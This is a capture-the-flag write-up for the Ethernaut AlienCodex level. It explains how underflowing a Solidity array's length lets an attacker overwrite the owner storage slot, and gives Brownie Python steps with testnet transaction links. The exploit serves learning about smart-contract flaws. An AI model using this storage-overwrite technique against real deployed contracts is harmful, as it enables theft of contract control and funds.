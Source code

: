 # AlienCodex

## Objectives

Claim ownership to complete the level.

## Solution

In the AlienCodex contract we can leverage the `retract()` function to cause an integer underflow in the length of the `codex` array. This underflow allows us to modify any state variable in the contract through the `revise()` function. The exploit can be performed as follows:

1. Call the `make_contact()` function to pass the `contacted()` modifier check, requiring `contact` to be true.

2. Call the `retract()` function to cause an integer overflow in the `codex` array length

3. Find the hash of the `owner` state variable as if it were part of the `codex` array by:

* Obtaining the hash of the first item in the `codex` array (as it is indexed in the contract storage), corresponding to its slot in the contract storage. This can be obtained by computing the Keccak256 hash of first _position_, so: `keccak256(0x0000000000000000000000000000000000000000000000000000000000000001)`. 

* Taking the hash resulting from this (`0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6`) and subtracting its integer value from the maximum amount of slots in a contract plus one ($2^{256} - 1$), so roughly:

$$2^{256} - int(0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6)$$

In Python (for example):

```python
2**256 -  int(web3.sha3(hexstr=f'0x{"0"*65}1').hex(),16)
```

Which returns the hash: `0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a`

4. Using this resulting value in `revise()` as the `i` (index) of the array `codex` to modify and `_content` as our address.


## How I did it

_Exactly_ as described in [solution](#solution), but using my local setup in brownie:

1. Call `make_contact()`

```python
aliencodex.make_contact(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x74e8128a14d8864febad45c3af8eeb42f8da329fb5a991a6ce863343ed31a581

2. Call `retract()` 

```python
aliencodex.retract(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x2affc0a88a1ec555330db5735d68e7819159a18aa905d5fb93698aa9eaa05dd1

3. Obtain the `codex` hash with the position of the `_owner` state variable in storage

```python
position_one = encode_abi(['uint256'],[1]).hex()
owner_hash = hex(2**256 - int(web3.sha3(hexstr=f"0x{position_one}").hex(),16))
```

4. Call `revise()` passing in my address and the hash

```python
aliencodex.revise(owner_hash, acc.address, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x12237e71e4fe8c6dcb94a3b3dea913d30fc8c99cc96faa890bb5bb3e1bdcb7da

5. Confirm that my address is indeed the new owner

```python
owner_assertion = aliencodex.owner() == acc.address
print(f"Address {acc.address} is the owner of the contract: {owner_assertion}")
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0x5aeb0a8299d1b6000a56b6952b15f88f9571781402a839b483cab48f37749998
